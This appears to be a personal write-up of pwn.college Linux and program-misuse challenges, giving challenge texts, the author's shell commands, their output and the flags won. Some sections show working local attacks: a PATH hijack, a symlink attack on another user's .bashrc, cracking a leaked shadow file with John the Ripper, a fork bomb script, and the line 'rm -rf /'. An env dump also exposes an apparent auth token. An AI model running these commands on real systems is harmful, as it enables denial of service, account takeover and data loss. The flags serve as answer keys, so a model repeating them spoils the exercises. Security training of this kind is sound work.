

- [Dealing with Data](#dealing-with-data)
- [Program Misuse](#program-misuse)
- [HTTP](#http)
- [SQL](#sql)
- [Intro to Cybersecurity](#intro-to-cybersecurity)
  - [Web Security](#web-security)

## Linux Luminarium

Digesting Documentation

4. Searching For Manuals
    - This level is tricky: it hides the manpage for the challenge by randomizing its name. Luckily, all of the man pages are gathered in a searchable database, so you'll be able to search the man page database to find the hidden challenge man page! To figure out how to search for the right man page, read the man page manpage by doing: man man!

    HINT 1: man man teaches you advanced usage of the man command itself, and you must use this knowledge to figure out how to search for the hidden manpage that will tell you how to use /challenge/challenge

    HINT 2: though the man page is randomly named, you still actually use /challenge/challenge to get the flag!
    - my solution:
   `man man` for manuals for `man`
   found out that `man -k [keyword]` and `man --apropos [keyword]` can be used to search for functions
    hacker@man~searching-for-manuals:/usr/share/man/man1$ man --apropos challenge
    vdtfxlwixj (1)       - print the flag!
    hacker@man~searching-for-manuals:/usr/share/man/man1$ man vdtfxlwixj
    hacker@man~searching-for-manuals:/usr/share/man/man1$ vdtfxlwixj --vdtfxl 884
    bash: vdtfxlwixj: command not found
    hacker@man~searching-for-manuals:/usr/share/man/man1$ man vdtfxlwixj
    hacker@man~searching-for-manuals:/usr/share/man/man1$ /challenge/challenge --vdtfxl 884
    Correct usage! Your flag: pwn.college{8B8vTGCL4dHYNY5tfL537I6xTlW.QX2EDO0wiNxQjMyEzW} 

5. Helpful Programs
   - Some programs don't have a man page, but might tell you how to run them if invoked with a special argument. Usually, this argument is --help, but it can often be -h or, in rare cases, -?, help, or other esoteric values like /? (though that latter is more frequently encountered on Windows).
   - In this level, you will practice reading a program's documentation with --help. Try it out!
   - my solution:
    hacker@man~helpful-programs:~$ /challenge/challenge --help
    usage: a challenge to make you ask for help [-h] [--fortune] [-v] [-g GIVE_THE_FLAG] [-p]

    optional arguments:
    -h, --help            show this help message and exit
    --fortune             read your fortune
    -v, --version         get the version number
    -g GIVE_THE_FLAG, --give-the-flag GIVE_THE_FLAG
                            get the flag, if given the correct value
    -p, --print-value     print the value that will cause the -g option to give you the flag
    hacker@man~helpful-programs:~$ /challenge/challenge -g GIVE_THE_FLAG
    usage: a challenge to make you ask for help [-h] [--fortune] [-v] [-g GIVE_THE_FLAG] [-p]
    a challenge to make you ask for help: error: argument -g/--give-the-flag: invalid int value: 'GIVE_THE_FLAG'
    hacker@man~helpful-programs:~$ /challenge/challenge -p
    The secret value is: 534
    hacker@man~helpful-programs:~$ /challenge/challenge -g 534
    Correct usage! Your flag: pwn.college{Y5HukkQ3U4lCFidO2KZJwfd2fx-.QX3IDO0wiNxQjMyEzW}
    hacker@man~helpful-programs:~$ 

6. Help for Builtins
    - Some commands, rather than being programs with man pages and help options, are built into the shell itself. These are called builtins. Builtins are invoked just like commands, but the shell handles them internally instead of launching other programs. You can get a list of shell builtins by running the builtin help, as so:
    hacker@dojo:~$ help
    You can get help on a specific one by passing it to the help builtin. Let's look at a builtin that we've already used earlier, cd!

    hacker@dojo:~$ help cd
    cd: cd [-L|[-P [-e]] [-@]] [dir]
        Change the shell working directory.
        
        Change the current directory to DIR.  The default DIR is the value of the
        HOME shell variable.
    ...
    Some good information! In this challenge, we'll practice using help to look up help for builtins. This challenge's challenge command is a shell builtin, rather than a program. Like before, you need to lookup its help to figure out the secret value to pass to it!

    - my solution:
    hacker@man~help-for-builtins:~$ help
    GNU bash, version 5.2.37(1)-release (x86_64-pc-linux-gnu)
    These shell commands are defined internally.  Type `help' to see this list.
    Type `help name' to find out more about the function `name'.
    Use `info bash' to find out more about the shell in general.
    Use `man -k' or `info' to find out more about commands not in this list.

    A star (*) next to a name means that the command is disabled.

    job_spec [&]                                    history [-c] [-d offset] [n] or history -anr>
    (( expression ))                                if COMMANDS; then COMMANDS; [ elif COMMANDS;>
    . filename [arguments]                          jobs [-lnprs] [jobspec ...] or jobs -x comma>
    ...

    hacker@man~help-for-builtins:~$ help challenge
    challenge: challenge [--fortune] [--version] [--secret SECRET]
        This builtin command will read you the flag, given the right arguments!
        
        Options:
        --fortune         display a fortune
        --version         display the version
        --secret VALUE    prints the flag, if VALUE is correct

        You must be sure to provide the right value to --secret. That value
        is "4BUzxRSe".
    hacker@man~help-for-builtins:~$ challenge --secret 4BUzxRSe
    Correct! Here is your flag!
    pwn.college{4BUzxRSevc4nhnREtqOFFE5Fcs5.QX0ETO0wiNxQjMyEzW}

Practicing Piping
9. Filtering with grep -v

    The grep command has a very useful option: -v (invert match). While normal grep shows lines that MATCH a pattern, grep -v shows lines that do NOT match a pattern:

    hacker@dojo:~$ cat data.txt
    hello hackers!
    hello world!
    hacker@dojo:~$ cat data.txt | grep -v world
    hello hackers!
    hacker@dojo:~$
    Sometimes, the only way to filter to just the data you want is to filter out the data you don't want. In this challenge, /challenge/run will output the flag to stdout, but it will also output over 1000 decoy flags (containing the word DECOY somehwere in the flag) mixed in with the real flag. You'll need to filter out the decoys while keeping the real flag!

    Use grep -v to filter out all the lines containing "DECOY" and reveal the real flag

    - my solution:
    hacker@piping~filtering-with-grep-v:~$ /challenge/run | grep pwn | grep -v DECOY
    pwn.college{AAbFMbUEBiAINIUAzcT6Ru4y5O8.0FOxEzNxwiNxQjMyEzW}

10. Duplicating piped data with tee
    When you pipe data from one command to another, you of course no longer see it on your screen. This is not always desired: for example, you might want to see the data as it flows through between your commands to debug unintended outcomes (e.g., "why did that second command not work???").

    Luckily, there is a solution! The tee command, named after a "T-splitter" from plumbing pipes, duplicates data flowing through your pipes to any number of files provided on the command line. For example:

    hacker@dojo:~$ echo hi | tee pwn college
    hi
    hacker@dojo:~$ cat pwn
    hi
    hacker@dojo:~$ cat college
    hi
    hacker@dojo:~$
    Now, you try it! This process' /challenge/pwn must be piped into /challenge/college, but you'll need to intercept the data to see what pwn needs from you!
    - my solution:
    hacker@piping~duplicating-piped-data-with-tee:~$ /challenge/pwn | tee intercept | /challenge/college
    Processing...
    The input to 'college' does not contain the correct secret code! This code 
    should be provided by the 'pwn' command. HINT: use 'tee' to intercept the 
    output of 'pwn' and figure out what the code needs to be.
    hacker@piping~duplicating-piped-data-with-tee:~$ cat intercept
    Usage: /challenge/pwn --secret [SECRET_ARG]

    SECRET_ARG should be "YXTXTQeZ"
    hacker@piping~duplicating-piped-data-with-tee:~$ /challenge/pwn --secret YXTXTQeZ | tee intercept
    | /challenge/college
    Processing...
    WARNING: you are overwriting file intercept with tee's output...
    Correct! Passing secret value to /challenge/college...
    Great job! Here is your flag:
    pwn.college{YXTXTQeZlm1YDfbP2rcgr6KkQ2D.QXxITO0wiNxQjMyEzW}

11. Writing to multiple programs

    Luckily, Linux follows the philosophy that "everything is a file". That is, the system strives to provide file-like access to most resources, including the input and output of running programs! The shell follows this philosophy, allowing you to, for example, use any utility that takes file arguments on the command line (such as tee) and hook it up to the input or output side of a program!

    This is done using what's called Process Substitution. If you write an argument of >(rev), bash will run the rev command (this command reads data from standard input, reverses its order, and writes it to standard output!), but hook up its input to a temporary file that it will create. This isn't a real file, of course, it's what's called a named pipe, in that it has a file name:

    hacker@dojo:~$ echo >(rev)
    /dev/fd/63
    hacker@dojo:~$
    Where did /dev/fd/63 come from? bash replaced >(rev) with the path of the named pipe file that's hooked up to rev's input! While the command is running, writing to this file will pipe data to the standard input of the command. Typically, this is done using commands that take output files as arguments (like tee):

    hacker@dojo:~$ echo HACK | rev
    KCAH
    hacker@dojo:~$ echo HACK | tee >(rev)
    HACK
    KCAH
    Above, the following sequence of events took place:

    bash started up the rev command, hooking a named pipe (presumably /dev/fd/63) to rev's standard input
    bash started up the tee command, hooking a pipe to its standard input, and replacing the first argument to tee with /dev/fd/63. tee never even saw the argument >(rev); the shell substituted it before launching tee
    bash used the echo builtin to print HACK into tee's standard input
    tee read HACK, wrote it to standard output, and then wrote it to /dev/fd/63 (which is connected to rev's stdin)
    rev read HACK from its standard input, reversed it, and wrote KCAH to standard output
    Now it's your turn! In this challenge, we have /challenge/hack, /challenge/the, and /challenge/planet. Run the /challenge/hack command, and duplicate its output as input to both the /challenge/the and the /challenge/planet commands!

    - my solution:
    hacker@piping~writing-to-multiple-programs:~$ /challenge/hack | tee >(/challenge/the) >(/challenge/planet)
    This secret data must directly and simultaneously make it to /challenge/the and 
    /challenge/planet. Don't try to copy-paste it; it changes too fast.
    24889312872449322275
    Congratulations, you have duplicated data into the input of two programs! Here 
    is your flag:
    pwn.college{QtqkWYGxqjPdJ0d5fq1Pk1arVdT.QXwgDN1wiNxQjMyEzW}

12. Split-piping stderr and stdout

    Now, let's put your knowledge together. You must master the ultimate piping task: redirect stdout to one program and stderr to another.

    The challenge here, of course, is that the | operator links the stdout of the left command with the stdin of the right command. Of course, you've used 2>&1 to redirect stderr into stdout and, thus, pipe stderr over, but this then mixes stderr and stdout. How to keep it unmixed?

    You will need to combine your knowledge of >(), 2>, and |. How to do it is a task I'll leave to you.

    In this challenge, you have:

    /challenge/hack: this produces data on stdout and stderr
    /challenge/the: you must redirect hack's stderr to this program
    /challenge/planet: you must redirect hack's stdout to this program
    Go get the flag!

    - my solution:

    hacker@piping~split-piping-stderr-and-stdout:~$ /challenge/hack > >(/challenge/planet) 2> >(/chal
    lenge/the)
    Congratulations, you have learned a redirection technique that even experts 
    struggle with! Here is your flag:
    pwn.college{QOVXXMJTSSdv27ALPDlQFxiBz1g.QXxQDM2wiNxQjMyEzW}

Shell Variables
5. Printing exported variables

    There are multiple ways to access variables in bash. echo was just one of them, and we'll now learn at least one more in this challenge.

    Try the env command: it'll print out every exported variable set in your shell, and you can look through that output to find the FLAG variable!
    - my solution
    hacker@variables~printing-exported-variables:~$ env
    SHELL=/run/dojo/bin/bash
    COLORTERM=truecolor
    TERM_PROGRAM_VERSION=1.91.1
    HOSTNAME=variables~printing-exported-variables
    VSCODE_PROXY_URI=https://pwn.college/workspace/code/proxy/{{port}}/
    PWD=/home/hacker
    MANPATH=/run/dojo/share/man:
    DOJO_AUTH_TOKEN=c200a4caa4ce87bb03fe1a37a982aff26b5cffeaf082c2d5b1770ccba1f623b9
    VSCODE_GIT_ASKPASS_NODE=/nix/store/2djgcjvx3c183zcdprylsx9p1a6rmwwk-nodejs-20.18.3/bin/node
    ...
    hacker@variables~printing-exported-variables:~$ env | grep FLAG
    FLAG=pwn.college{w_8cHqS4-q6SygKAQ9sgfj-z3VL.QX4UTN0wiNxQjMyEzW}

6. Storing command output
    In the course of working with the shell, you will often want to store the output of some command into a variable. Luckily, the shell makes this quite easy using something called Command Substitution! Observe:

    hacker@dojo:~$ FLAG=$(cat /flag)
    hacker@dojo:~$ echo "$FLAG"
    pwn.college{blahblahblah}
    hacker@dojo:~$
    Neat! Now, you practice. Read the output of the /challenge/run command directly into a variable called PWN, and it will contain the flag!

    - my solution
    hacker@variables~storing-command-output:~$ PWN=$(/challenge/run)
    Congratulations! You have read the flag into the PWN variable. Now print it out 
    and submit it!
    hacker@variables~storing-command-output:~$ echo $PWN
    pwn.college{Y2qCi1ka7M4hE8lOK81-eWw7xMW.QX1cDN1wiNxQjMyEzW}

8. Reading files
    Often, when shell users want to read a file into an environment variable, they do something like:

    hacker@dojo:~$ echo "test" > some_file
    hacker@dojo:~$ VAR=$(cat some_file)
    hacker@dojo:~$ echo $VAR
    test
    This works, but it represents what grouchy hackers call a "Useless Use of Cat". That is, running a whole other program just to read the file is a waste. It turns out that you can just use the powers of the shell!

    Previously, you read user input into a variable. You've also previously redirected files into command input! Put them together, and you can read files with the shell.

    hacker@dojo:~$ echo "test" > some_file
    hacker@dojo:~$ read VAR < some_file
    hacker@dojo:~$ echo $VAR
    test
    What happened there? The example redirects some_file into the standard input of read, and so when read reads into VAR, it reads from the file! Now, use that to read /challenge/read_me into the PWN environment variable, and we'll give you the flag! The /challenge/read_me will keep changing, so you'll need to read it right into the PWN variable with one command!

    - my solution:
    hacker@variables~reading-files:~$ read PWN < /challenge/read_me
    You've set the PWN variable properly! As promised, here is the flag:
    pwn.college{4P8uMg8JNq_PYiblMkOgMwg1lpl.QXwIDO0wiNxQjMyEzW}

Data Manip
5. Extracting specific sections of text

    Sometimes, you want to grab specific columns of data, such as the first column, the third column, or the 42nd column. For this, there"s the cut command.

    For example, imagine that you have the following data file:

    hacker@dojo:~$ cat scores.txt
    hacker 78 99 67
    root 92 43 89
    hacker@dojo:~$
    You could use cut to extract specific columns:

    hacker@dojo:~$ cut -d " " -f 1 scores.txt
    hacker
    root
    hacker@dojo:~$ cut -d " " -f 2 scores.txt
    78
    92
    hacker@dojo:~$ cut -d " " -f 3 scores.txt
    99
    43
    hacker@dojo:~$
    The -d argument specifies the column delimiter (how columns are separated). In this case, it"s a space character. Of course, it has to be in quotes here so that the shell knows that the space is an argument rather than a space separating other arguments! The -f argument specifies the field number (which column to extract).

    In this challenge, the /challenge/run program will give you a bunch of lines with random numbers and single characters (characters of the flag) as columns. Use cut to extract the flag characters, then pipe them to tr -d "\n" (like the previous level!) to join them together into a single line. Your solution will look something like /challenge/pwn | cut ??? | tr ???, with the ??? filled out.

    - my solution:
    hacker@data~extracting-specific-sections-of-text:~$ /challenge/run | cut -d " " -f 2 | tr -d "\n"
    pwn.college{Ih--1SKTZurHUMyDsEBUFXS7Vul.01NxEzNxwiNxQjMyEzW}

Untangling Users

3. Cracking passwords

    When you enter a password for su, it compares it against the stored password for that user. These passwords used to be stored in /etc/passwd, but because /etc/passwd is a globally-readable file, this is not good for passwords, these were moved to /etc/shadow. Here is the example /etc/shadow from the previous level:

    root:$6$s74oZg/4.RnUvwo2$hRmCHZ9rxX56BbjnXcxa0MdOsW2moiW8qcAl/Aoc7NEuXl2DmJXPi3gLp7hmyloQvRhjXJ.wjqJ7PprVKLDtg/:19921:0:99999:7:::
    daemon:*:19873:0:99999:7:::
    bin:*:19873:0:99999:7:::
    sys:*:19873:0:99999:7:::
    sync:*:19873:0:99999:7:::
    games:*:19873:0:99999:7:::
    man:*:19873:0:99999:7:::
    lp:*:19873:0:99999:7:::
    mail:*:19873:0:99999:7:::
    news:*:19873:0:99999:7:::
    uucp:*:19873:0:99999:7:::
    proxy:*:19873:0:99999:7:::
    www-data:*:19873:0:99999:7:::
    backup:*:19873:0:99999:7:::
    list:*:19873:0:99999:7:::
    irc:*:19873:0:99999:7:::
    gnats:*:19873:0:99999:7:::
    nobody:*:19873:0:99999:7:::
    _apt:*:19873:0:99999:7:::
    systemd-timesync:*:19901:0:99999:7:::
    systemd-network:*:19901:0:99999:7:::
    systemd-resolve:*:19901:0:99999:7:::
    mysql:!:19901:0:99999:7:::
    messagebus:*:19901:0:99999:7:::
    sshd:*:19901:0:99999:7:::
    hacker::19916:0:99999:7:::
    zardus:$6$bEFkpM0w/6J0n979$47ksu/JE5QK6hSeB7mmuvJyY05wVypMhMMnEPTIddNUb5R9KXgNTYRTm75VOu1oRLGLbAql3ylkVa5ExuPov1.:19921:0:99999:7:::
    Separated by :s, the first field of each line is the username and the second is the password. A value of * or ! functionally means that password login for the account is disabled, a blank field means that there is no password (a not-uncommon misconfiguration that allows password-less su in some configurations), and the long string such as Zardus' $6$bEFkpM0w/6J0n979$47ksu/JE5QK6hSeB7mmuvJyY05wVypMhMMnEPTIddNUb5R9KXgNTYRTm75VOu1oRLGLbAql3ylkVa5ExuPov1. is the result of one-way-encrypting (hashing) Zardus' password from the last level (in this case, dont-hack-me). Other fields in this file have other meanings, and you can read more about them here.

    When you input a password into su, it one-way-encrypts (hashes) it and compares the result against the stored value. If the result matches, su grants you access to the user!

    But what if you don't know the password? If you have the hashed value of the password, you can crack it! Even though /etc/shadow is, by default, only readable by root, leaks can happen! For example, backups are often stored, unencrypted and insufficiently protected, on file servers, and this has led to countless data disclosures.

    If a hacker gets their hands on a leaked /etc/shadow, they can start cracking passwords and wreaking havoc. The cracking can be done via the famous John the Ripper, as so:

    hacker@dojo:~$ john ./my-leaked-shadow-file
    Loaded 1 password hash (crypt, generic crypt(3) [?/64])
    Will run 32 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    password1337      (zardus)
    1g 0:00:00:22 3/3 0.04528g/s 10509p/s 10509c/s 10509C/s lykys..lank
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed
    hacker@dojo:~$
    Here, John the Ripper cracked Zardus' leaked password hash to find the real value of password1337. Poor Zardus!

    This level simulates this story, giving you a leak of /etc/shadow (in /challenge/shadow-leak). Crack it (this could take a few minutes), su to zardus, and run /challenge/run to get the flag!

    - my solution:
    hacker@users~cracking-passwords:~$ john --show /challenge/shadow-leak
    hacker:NO PASSWORD:20209:0:99999:7:::
    zardus:aardvark:20245:0:99999:7:::

    2 password hashes cracked, 0 left
    hacker@users~cracking-passwords:~$ su zardus
    Password: 
    zardus@users~cracking-passwords:/home/hacker$ /challenge/run
    Congratulations, you have become Zardus! Here is your flag:
    pwn.college{o4JtnuF_WvCSyR-xmoEq2BEp5Su.QX3UDN1wiNxQjMyEzW}

Pondering PATH
5. Hijacking commands

    Armed with your knowledge, you can now carry out some shenanigans. This challenge is almost the same as the first challenge in this module. Again, this challenge will delete the flag using the rm command. But unlike before, it will not print anything out for you.

    How can you solve this? You know that rm is searched for in the directories listed in the PATH variable. You have experience creating the win command when the previous challenge needed it. What else can you create?

    - my solution:
    hacker@path~hijacking-commands:~$ echo $PATH
    /nix/store/l0h2dpifg7hpl6yirs5z3k8zd2wddyv3-code-server/libexec/code-server/lib/vscode/bin/remote-cli:/run/challenge/bin:/run/workspace/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
    hacker@path~hijacking-commands:~$ chmod a+x rm
    hacker@path~hijacking-commands:~$ ls -l rm
    -rwxr-xr-x 1 hacker hacker 18 Jun  9 02:18 rm
    hacker@path~hijacking-commands:~$ PATH="/home/hacke“”
    > ^C
    hacker@path~hijacking-commands:~$ PATH="/home/hacker"
    hacker@path~hijacking-commands:~$ /challenge/run
    bash: sed: command not found
    Trying to remove /flag...
    pwn.college{0xn9mJ-zSMKoePNnyBhVMSbhlUy.QX3cjM1wiNxQjMyEzW}
    hacker@path~hijacking-commands:~$ 
    - /home/hacker/rm:
        /usr/bin/cat /flag

Silly Chenanigans

4. Tricky Linking
    Okay, Zardus has wised up! No more sharing the home directory: despite the reduced convenience, Zardus has moved to sharing /tmp/collab. He's made that directory world-readable and has started a list of evil commands to remember!

    zardus@dojo:~$ mkdir /tmp/collab
    zardus@dojo:~$ chmod a+w /tmp/collab
    zardus@dojo:~$ echo "rm -rf /" > /tmp/collab/evil-commands.txt
    In this challenge, when you run /challenge/victim, Zardus will add cat /flag to that list of commands:

    hacker@dojo:~$ /challenge/victim

    Username: zardus
    Password: **********
    zardus@dojo:~$ echo "cat /flag" >> /tmp/collab/evil-commands.txt
    zardus@dojo:~$ exit
    logout

    hacker@dojo:~$
    Recall from the previous level that, having write access to /tmp/collab, the hacker user can replace that evil-commands.txt file. Also remember from Comprehending Commands that files can link to other files. What happens if hacker replaces evil-commands.txt with a symbolic link to some sensitive file that zardus can write to? Chaos and shenanigans!

    You know the file to link to. Pull off the attack, and get /flag (which, for this level, Zardus can read again!).

    HINT: You'll need to run /challenge/victim twice: once to get cat /flag written to where you want, and once to trigger it!

    Is /tmp dangerous to use??? Despite the attack shown here, /tmp can be used safely. The directory is world-writable, but has a special permission bit set:

    hacker@dojo:~$ ls -ld /tmp
    drwxrwxrwt 29 root root 1056768 Jun  6 14:06 /tmp
    hacker@dojo:~$
    That t bit at the end is the sticky bit. The sticky bit means that the directory only allows the owners of files to rename or remove files in the directory. It's designed to prevent this exact attack! The problem in this challenge, of course, was that Zardus did not enable the sticky bit on /tmp/collab. This would have closed the hole in this specific case:

    zardus@dojo:~$ chmod +t /tmp/collab
    Of course, shared resources like world-writable directories are still dangerous. Much later, in the Race Conditions of the Green Belt material, you'll see many ways in which such resources can cause security issues!

    - my solution:
        hacker@shenanigans~tricky-linking:/home/zardus$ rm /tmp/collab/evil-commands.txt
        rm: remove write-protected regular file '/tmp/collab/evil-commands.txt'? y
        hacker@shenanigans~tricky-linking:/home/zardus$ ln -s /home/zardus/.bashrc /tmp/collab/evil-commands.txt
        hacker@shenanigans~tricky-linking:/home/zardus$ /challenge/victim
        Username: zardus
        Password: **********
        zardus@shenanigans~tricky-linking:~$ echo "cat /flag" >> /tmp/collab/evil-commands.txt
        zardus@shenanigans~tricky-linking:~$ exit
        logout
        hacker@shenanigans~tricky-linking:/home/zardus$ cat /home/zardus/.bashrc
        this sets up a scary red shell prompt!
        PS1='\[\033[01;31m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]$ '

        add your attack below this line!
        cat /flag
        hacker@shenanigans~tricky-linking:/home/zardus$ /challenge/victim
        Username: zardus
        Password: **********
        pwn.college{AgyiTBlNlf91kkA7_gHtlI_sqSF.0VM0EzNxwiNxQjMyEzW}
        zardus@shenanigans~tricky-linking:~$ echo "cat /flag" >> /tmp/collab/evil-commands.txt
        zardus@shenanigans~tricky-linking:~$ exit
        logout
        hacker@shenanigans~tricky-linking:/home/zardus$ 

Daring Destruction
1. the fork bomb

As you learned in the Processes and Jobs module, whenever you start a program the Linux operating system creates a new process. If you create processes faster than the kernel can handle, the process table fills up and everything grinds to a halt. This new process (e.g., of an ls invocation) is ``forked'' off of a parent process (e.g., a shell instance). Thus, the induced explosion of processes is called a "Fork Bomb".

You have the tools to do this:

write a small script (like in the Chaining Commands module)
make it executable (like in the Perceiving Permissions module)
make it launch a copy of itself in the background (like in the Processes and Jobs module)
and then launch another copy of itself in the background!
Each copy will launch two more, and each of those will launch two more, and you will flood the system with so many processes that new ones will not be able to start!

This challenge contains a /challenge/check that'll try to determine if your fork bomb is working (e.g., if it can't launch new processes) and give you the flag if so. Make sure to launch it (in a different terminal) before launching your attack; otherwise you won't be able to launch it!

NOTE: Needless to say, this will render your environment unusable. Just restart the challenge (or start a different one) to get things back to a usable state!

   - my solution (script - /home/hacker/fork_bomb)
        #!/bin/bash
        :(){ :|:& };:

# Dealing with Data

8. Decoding Hex

    Now, let's decode some hex, rather than encoding it. Can you figure out what the program needs?

    NOTE: One of the toughest parts of this challenge is to send raw binary data to it stdin. There are a few ways to do this:

    Write a python script to output data to stdout and pipe that to the challenge's stdin! This would involve using the raw byte interface to stdout: sys.stdout.buffer.write().
    Write a python script to run the challenge and interact with it directly. Our recommendation is to use pwntools for this: import pwn, p = pwn.process("/challenge/runme"), p.write(), and p.readall(). A pwn.college alumni has created an awesome pwntools cheat sheet that you may reference.
    For an increasingly hacky solution, echo -e -n "\xAA\xBB" will print out bytes to stdout that you can pipe.

    - my solution

            hacker@data-dealings~decoding-hex:~$ cat /challenge/runme
            #!/usr/bin/exec-suid -- /bin/python3 -I

            import sys

            print("Enter the password:")
            entered_password = sys.stdin.buffer.read1()
            correct_password = b"e3a6d89fdcf0a8f3"

            print(f"Read {len(entered_password)} bytes.")

            correct_password = bytes.fromhex(correct_password.decode("l1"))

            if entered_password == correct_password:
                print("Congrats! Here is your flag:")
                print(open("/flag").read().strip())
            else:
                print("Incorrect!")
                sys.exit(1)
            hacker@data-dealings~decoding-hex:~$ echo -e -n "\xe3\xa6\xd8\x9f\xdc\xf0\xa8\xf3" | /challenge/runme
            Enter the password:
            Read 8 bytes.
            Congrats! Here is your flag:
            pwn.college{cZxSLSMzJRYndechIYeFoZZJNx-.0lN1YDNxwiNxQjMyEzW}

9. Decoding practice

    How many bases can you hold in your head? Here, we explore binary encoding of input.

    - my solution

        hacker@data-dealings~decoding-practice:~$ cat /challenge/runme
        #!/usr/bin/exec-suid -- /bin/python3 -I

        import sys

        def decode_from_bits(s):
            s = s.decode("latin1")
            assert set(s) <= {"0", "1"}, "non-binary characters found in bitstream!"
            assert len(s) % 8 == 0, "must enter data in complete bytes (each byte is 8 bits)"
            return int.to_bytes(int(s, 2), length=len(s) // 8, byteorder="big")

        print("Enter the password:")
        entered_password = sys.stdin.buffer.read1()
        correct_password = b"1100001011010100111010111111100010001001101111001111111010110111"

        print(f"Read {len(entered_password)} bytes.")

        correct_password = decode_from_bits(correct_password)

        if entered_password == correct_password:
            print("Congrats! Here is your flag:")
            print(open("/flag").read().strip())
        else:
            print("Incorrect!")
            sys.exit(1)
        hacker@data-dealings~decoding-practice:~$ nano yesme.py

        GNU nano 8.2                                                                                          yesme.py                                                                                                     
        #!/usr/bin/env python3
        import sys
        sys.stdout.buffer.write(int("1100001011010100111010111111100010001001101111001111111010110111",2).to_bytes(8,'big'))

        acker@data-dealings~decoding-practice:~$ ./yesme.py
        ��������
        hacker@data-dealings~decoding-practice:~$ ./yesme.py | /challenge/runme
        Enter the password:
        Read 8 bytes.
        Congrats! Here is your flag:
        pwn.college{YH3OB2uQPPVmUnabdIZVfJR7MpD.01N1YDNxwiNxQjMyEzW}

# Program Misuse

11. `od`

    Requires you to understand their output to derive the flag from it!

    - my solution:
            bash-5.2$ od -An -v -t x1 /flag | tr -d ' \n' | xxd -r -p
            pwn.college{w06wwdxgKGcuRlkSYYBfgC_4o6j.dNTNxwiNxQjMyEzW}
    - Explanation:
        `od -An -v -t x1 /flag`:
            `od` stands for *octal dump*, but it's actually a tool that can output binary data in multiple formats, not just octal.

            * `-t x1`: This tells `od` to display the file content in hexadecimal (`x`) format, showing 1 byte per value*(`1`).

            * For example, the letter `A` (ASCII 65) would be shown as `41`.
            * `-v`: Verbose mode; ensures that all lines are printed, even if the file has long sequences of repeated bytes.
            * `-An`: "Address none" — disables the default left-hand column that displays the byte offset.

            What you get:
            A stream of hex bytes, one for each byte in the file, like this:
            `68 65 6c 6c 6f 0a`

        This represents the string `"hello\n"`.

        `tr -d ' \n'`:
            `tr` stands for translate, but when used with `-d`, it deletes characters from input.
            * `-d ' \n'`: Deletes all spaces and newline characters.
            What this does:
            It turns the spaced hex output from `od`:
            `68 65 6c 6c 6f 0a`
            into a **compact hex string**:
            `68656c6c6f0a`

        `xxd -r -p`:
            `xxd` is a tool that can both generate and reverse hex dumps.

            * `-r`: Reverses the process — from hex back to binary.
            * `-p`: Specifies *plain* hex format (no addresses or structured formatting).

            What it does:
            It reads the compact hex string:
            `68656c6c6f0a`

            And converts it back to the original binary data, byte-for-byte — in this case, producing the raw string `hello\n`.

12. `hd`

    Requires you to understand their output to derive the flag from it!

    - my solution:
        bash-5.2$ hd -v /flag | cut -c11-58 | tr -d '\n' | xxd -r -p
        pwn.college{gQG5eK4uCB-GHWGJrImo2UjsFi-.dRTNxwiNxQjMyEzW}
    - `cut -c11-58` keeps only characters in columns 11 to 58 (where the hex bytes are). 
    - Otherwise, only a part of the flag can be printed out.

14. `base32`

    Requires you to understand their output to derive the flag from it!

    - my solution:
        bash-5.2$ base32 --help
        Usage: base32 [OPTION]... [FILE]
        Base32 encode or decode FILE, or standard input, to standard output.

        With no FILE, or when FILE is -, read standard input.

        Mandatory arguments to long options are mandatory for short options too.
        -d, --decode          decode data
        -i, --ignore-garbage  when decoding, ignore non-alphabet characters
        -w, --wrap=COLS       wrap encoded lines after COLS character (default 76).
                                Use 0 to disable line wrapping

            --help     display this help and exit
            --version  output version information and exit

        The data are encoded as described for the base32 alphabet in RFC 4648.
        When decoding, the input may contain newlines in addition to the bytes of
        the formal base32 alphabet.  Use --ignore-garbage to attempt to recover
        from any other non-alphabet bytes in the encoded stream.

        GNU coreutils online help: <https://www.gnu.org/software/coreutils/>
        Report base32 translation bugs to <https://translationproject.org/team/>
        Full documentation at: <https://www.gnu.org/software/coreutils/base32>
        or available locally via: info '(coreutils) base32 invocation'
        bash-5.2$ base32 /flag | base32 -d
        pwn.college{cqpDdklSp9Y1LGu3S6HytbgXag2.dZTNxwiNxQjMyEzW}
        
16. `split`

    Requires you to understand their output to derive the flag from it!

    - my solution:
            bash-5.2$ split --help
            Usage: split [OPTION]... [FILE [PREFIX]]
            Output pieces of FILE to PREFIXaa, PREFIXab, ...;
            default size is 1000 lines, and default PREFIX is 'x'.

            With no FILE, or when FILE is -, read standard input.

            Mandatory arguments to long options are mandatory for short options too.
            -a, --suffix-length=N   generate suffixes of length N (default 2)
                --additional-suffix=SUFFIX  append an additional SUFFIX to file names
            -b, --bytes=SIZE        put SIZE bytes per output file
            -C, --line-bytes=SIZE   put at most SIZE bytes of records per output file
            -d                      use numeric suffixes starting at 0, not alphabetic
